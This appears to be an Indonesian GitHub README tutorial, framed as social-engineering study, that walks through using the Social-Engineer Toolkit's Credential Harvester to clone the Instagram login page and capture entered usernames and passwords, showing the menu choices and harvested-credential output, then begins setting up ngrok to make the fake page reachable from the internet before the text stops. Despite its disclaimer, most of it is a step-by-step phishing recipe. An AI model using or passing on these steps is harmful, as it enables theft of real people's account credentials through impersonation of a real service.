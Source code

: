 # ngrokxwebphising by Li3N4X
Ini adalah repository pertama saya di github. Saya bermaksud untuk membuat dokumentasi saat saya belajar *Social Engineering*.
Tunneling web phising menggunakan ngrok. Saya bermaksud untuk berbagi ilmu dan pemahaman dalam maksud dan tujuan untuk belajar dan tidak menyalahgunakanhal yang sudah saya pelajari, karena saya sadar hal ini dapat berbahaya dan dapat disalahgunakan ditangan orang jahat/kriminal. Jika ada, entah siapapun yang melakukan tindakan perusakan/cybercrime yang disebabkan dari pembelajaran tutorial yang saya buat, 
Dengan tegas kami saya tidak bertanggung jawab kepada yang bersangkutan
Saya percaya bahwa tidak mungkin membela diri dari peretas tanpa mengetahui peretasan itu dilakukan.

Tujuan utama dari kegiatan ini adalah untuk mengetahui bagaimana cara kita bisa melakukan sebagai berikut :
- Mengenal Web Phising
- Tunneling
- Ngrok
- Step by step cara

Tools yang saya gunakan : 
- ngrok
- setoolkit

Yang perlu disiapkan terlebih dahulu :
- Akun ngrok
- Install ngrok
- Install setoolkit
- Bahan login page sebuah website

## Tahap Pertama
Kita akan menggunakan dan mencoba bahan yang kita siapkan sudah siap untuk digunakan. 


```
sudo su
setoolkit
```
masuk sebagai super user di linux. Saya menggunakan Kali Linux
lalu buka setoolkit yang sudah disiapkan.
Disini saya tidak akan menjelaskan bagaimana cara instalasi `setoolkit`, karena kali linux sudah menyiapkan itu semua.

```

           ..######..########.########
           .##....##.##..........##...
           .##.......##..........##...
           ..######..######......##...
           .......##.##..........##...
           .##....##.##..........##...
           ..######..########....##...  

[---]        The Social-Engineer Toolkit (SET)         [---]
[---]        Created by: David Kennedy (ReL1K)         [---]
                      Version: 8.0.3
                    Codename: 'Maverick'
[---]        Follow us on Twitter: @TrustedSec         [---]
[---]        Follow me on Twitter: @HackingDave        [---]
[---]       Homepage: https://www.trustedsec.com       [---]
        Welcome to the Social-Engineer Toolkit (SET).
         The one stop shop for all of your SE needs.

   The Social-Engineer Toolkit is a product of TrustedSec.

           Visit: https://www.trustedsec.com

   It's easy to update using the PenTesters Framework! (PTF)
Visit https://github.com/trustedsec/ptf to update all your tools!


 Select from the menu:

   1) Social-Engineering Attacks
   2) Penetration Testing (Fast-Track)
   3) Third Party Modules
   4) Update the Social-Engineer Toolkit
   5) Update SET configuration
   6) Help, Credits, and About

  99) Exit the Social-Engineer Toolkit

```
Ini adalah menu yang dapat kita pilih saat pertama kali membuka setoolkit.
mari kita berfokus pada opsi - opsi berikut
```
 Select from the menu:

   1) Social-Engineering Attacks
   2) Penetration Testing (Fast-Track)
   3) Third Party Modules
   4) Update the Social-Engineer Toolkit
   5) Update SET configuration
   6) Help, Credits, and About

  99) Exit the Social-Engineer Toolkit
```
**Kita pilih opsi nomor 1 Social-Engineering Attacks, lalu akan keluar opsi berikutnya seperti berikut**
```
 Select from the menu:

   1) Spear-Phishing Attack Vectors
   2) Website Attack Vectors
   3) Infectious Media Generator
   4) Create a Payload and Listener
   5) Mass Mailer Attack
   6) Arduino-Based Attack Vector
   7) Wireless Access Point Attack Vector
   8) QRCode Generator Attack Vector
   9) Powershell Attack Vectors
  10) Third Party Modules

  99) Return back to the main menu.
```
Kalau diperhatikan dari pilihan yang diberikan, kita dapat mengakses semua opsi, namun akan berbahaya ketika digunakan tanpa etika dan tanpa tanggung jawab
**kita pilih nomor 2 Website Attack Vectors, lalu akan keluar opsi selanjutnya**

```
The HTA Attack method will allow you to clone a site and perform powershell injection through HTA files which can be used for Windows-based powershell exploitation through the browser.

   1) Java Applet Attack Method
   2) Metasploit Browser Exploit Method
   3) Credential Harvester Attack Method
   4) Tabnabbing Attack Method
   5) Web Jacking Attack Method
   6) Multi-Attack Web Method
   7) HTA Attack Method

  99) Return to Main Menu
```
**Kita pilih nomor 3 Credential Harvester Attack Method, lalu akan keluar seperti ini**
```
   1) Web Templates
   2) Site Cloner
   3) Custom Import

  99) Return to Webattack Menu
```
**Saya akan mempraktekkan nomor 2 Site Cloner**

```
##marked
Ujung Tahap Pertama!
set:webattack> IP address for the POST back in Harvester/Tabnabbing [ip.addr.ess.kamu]:
```
**Disini karena untuk mencoba terlebih dahulu, kita lewati tahap ini dengan menekan `Enter` langsung**
```
set:webattack> Enter the url to clone:ur url here!
```
Masukkan website yang halaman loginnya ingin kita clone sebagai media phising.
Sebagai contoh kita akan menggunakan `https://www.instagram.com/accounts/login/`
lalu `Enter`

```
The best way to use this attack is if username and password form fields are available. Regardless, this captures all POSTs on a website.                                                                                              
[*] The Social-Engineer Toolkit Credential Harvester Attack
[*] Credential Harvester is running on port 80                                                                     
[*] Information will be displayed to you as it arrives below: 
```
**Yup! ini sudah jadi. coba kalian masuk kedalam ip address yang tertera disini `set:webattack> IP address for the POST back in Harvester/Tabnabbing [ip.addr.ess.kamu]:`**

**ya benar, halaman login instagram sudah ada dan persis mirip sekali, coba saja kalian masukkan username dan pass apa saja.. nanti kalian akan menerima trigger dari setoolkit**
```
[*] Information will be displayed to you as it arrives below:                                                      
127.0.0.1 - - [07/Apr/2023 13:14:57] "GET / HTTP/1.1" 200 - #baris ini menandakan kalau alamat IP kalian di 'Klik' dan di akses
127.0.0.1 - - [07/Apr/2023 13:15:06] "GET / HTTP/1.1" 200 -
[*] WE GOT A HIT! Printing the output:
PARAM: ReturnUrl=/                                                                                                 
POSSIBLE USERNAME FIELD FOUND: Username=wicak   #sebagai contoh, saya memasukkan uname dan pass serupa                                                                   
POSSIBLE PASSWORD FIELD FOUND: Password=wicak                                                                      
PARAM: __RequestVerificationToken=CfDJ8B243YWE8BRKugCLYHGbxpuq-BRDJ7001cLwguetYpvI4NFHvm8AYv14MQKQnL-uQWd1oRA_NognBtwsICa_FREBtKwEam3VP1VppEqkMvo3JOUT2U_RPm2YvKXsoYO1njr32n3qp3-DlgHf1fKDorM                                         
PARAM: RememberMe=false                                                                                            
[*] WHEN YOU'RE FINISHED, HIT CONTROL-C TO GENERATE A REPORT. 
```
**Yap! begitu simplenya**

##Tahap Kedua
kita akan mulai menggunakan `ngrok`. Kita akan coba memfungsikan ngrok sebagai media `tunneling` yang akan membuat website palsu kita pada tahap pertama tadi bisa diakses oleh network publik.
**Note : pastikan kamu sudah memiliki akun di ngrok, kita akan menggunakan authtoken dari ngrok untuk memulainya**
